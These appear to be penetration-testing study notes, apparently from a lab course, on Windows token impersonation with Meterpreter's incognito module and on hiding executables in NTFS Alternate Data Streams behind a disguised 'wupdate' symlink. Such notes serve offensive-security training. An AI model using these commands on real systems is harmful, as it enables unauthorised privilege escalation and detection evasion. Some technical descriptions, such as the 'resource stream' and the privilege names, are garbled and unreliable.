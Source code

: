 Access tokens are categorized based on varying security levels assigned to them, and the security level determines the privileges that are assigned to a specific token. 
2 security levels an access token will be assigned :-
1. Impersonate-Level tokens - created as a direct result of a non-interactive login.
2. Delegate-Level tokens - created through an interactive login on windows, e.g traditional logins or RDP. - More dangerous cause they can be used to impersonate tokens on any system.

Privileges required for Impersonate attacks : -
1. SeAssignTokens - allows you to impersonate tokens
2. SeCreateTokens - allows you create an arbitrary token with admin privs.
3. SeImpersonatePrivilege - allows you create a process under the security context of another user usually one with admin privs.

>USING METERPRETER INCOGNITO MODULE
- the module can be used to display a list of available tokens that we can impersonate.

ATTACK CHAIN 
```bash
INCOGNITO MODULE - lists available tokens to impersonate

> load incognito
> list_tokens -u (You want the Delgation-Level tokens)
> impersonate_token "TOKEN_NAME" 

e.g
> impersonate_token "ATTACKDEFENSE\Administrator"

NB : you still need to migrate to a process of AUTHORITY even tho getuid says we successfully impersonated the user. - MIGRATE TO EXPLORER PROCESS OR ANY OTHER.
```

****
### Windows File System Vulnerabilities - ADS
Alternate Data Streams is an NTFS file attribute designed to provide compatibility with MACOS HFS
Any file created on a NTFS formatted drive wil have 2 different streams : 
- Data stream - Default stream containing the file data
- Resource stream - containing the file metadata.

ADS can be used to hide malicious code or executables in legitimate files in orfer to evade detection by storing the malicious code in the resource stream of a legitimate file.

```bash
- create a text file
> notepad text.txt

right click on the txt file and then on "properties" -> "details"
the metadata is there, so we can hide data there and specify you want that to execute.

- You can also hide some other file within a file
> notepad test.txt:secret.txt

to read the file hidden in the resource stream, you can just open it same way you create it
> notepad test.txt:secret.txt

- EMBED AN EXE IN A TXT WITH ADS
> type winpeas.exe > windowslog.txt:winpeas.exe

- to execute it you need to create a symlink to the file because its being executed from the Start menu, but do that in the System32 folder :

> mklink wupdate.exe C:\Temp\Windowslog.txt:winpeas.exe

- not you can run winpeas.exe with
> wupdate
```
